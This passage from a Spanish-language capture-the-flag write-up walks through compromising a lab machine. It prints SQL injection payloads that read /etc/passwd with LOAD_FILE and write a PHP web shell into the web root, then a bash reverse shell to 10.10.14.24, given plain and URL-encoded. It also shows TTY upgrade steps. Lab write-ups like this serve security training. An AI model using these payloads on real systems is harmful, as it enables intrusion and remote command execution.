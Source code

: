 ```sql
,admin:$2y$10$37Q1SanFMybo1MXUncgI1uYt5G1KdqaHMWlBjcY7i63aGcluXNrfu
```

Vemos que las contraseñas estan hasheadas. No probaremos crackearlas e intentar ingresar por SSH.

### Leyendo ficheros internos
Podemos enumerar ficheros internos con la vulnerabilidad de SQLi mediante el comando **`LOAD_FILE`**

```sql
UNION SELECT 1,2,LOAD_FILE('/etc/passwd')-- -
```
![pswd](https://i.postimg.cc/RVk93gpj/passwd.png)

Podemos probar enumerar la clave privada de SSH del usuario:     
![rsafail](https://i.postimg.cc/Fzf5zSyr/idrsafail.png)

### Web Shell via SQLi 
Podemos probar una técnica para subir una web shell desde la consulta SQL. Primero debemos saber en que ruta reside el servidor, sabemos que el servidor es un nginx. Entonces podemos probar con rutas de servidores nginx como **`/etc/nginx/sites-enabled/default`**:    
![nginx](https://i.postimg.cc/90HKmkQp/nginx.png)

Observamos que se revela la ruta **`/srv/altered/public`**. Quiero pensar que tengo permiso de escritura por lo que subire una webshell de la siguiente forma:  
```sql
UNION SELECT 1,2,<?php system($_REQUEST[\"cmd\"]); ?> into outfile '/srv/altered/public/wse.php'-- -
```
![wshell](https://i.postimg.cc/WzpmwmWV/wshell.png)

Al ingresar en la url el nombre asignado a la webshell *“wse.php”* observamos que se reflejan los valores 1, 2 y el valor donde debería ir 3 se ve vacío:     
![wse](https://i.postimg.cc/TwN1Br2f/wse1.png)

Pasamos el parámetro cmd por la url y podremos ejecutar comandos:
![wse2](https://i.postimg.cc/bvN2MY00/wse2.png)

## Reverse shell as www-data
Ya que podemos ejecutar comandos utilizare una reverse shell simple en bash:

```sql
bash -c "bash -i >& /dev/tcp/10.10.14.24/443 0>&1"
Posteriormente la URL-Encodeamos:
%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%32%34%2f%34%34%33%20%30%3e%26%31%22
```

Al enviar el comando en el navegador y al estar a la escucha con netcat vemos que recibimos la shell:     
![revwww](https://i.postimg.cc/nLGG9cZN/revaswww.png)
### Tratamiento TTY
Para avanzar cómodamente realizaremos el tratamiento de la tty para obtener una consola interactiva. Escribimos la siguiente secuencia de comandos para poder obtener una consola interactiva o fully tty:     
```bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```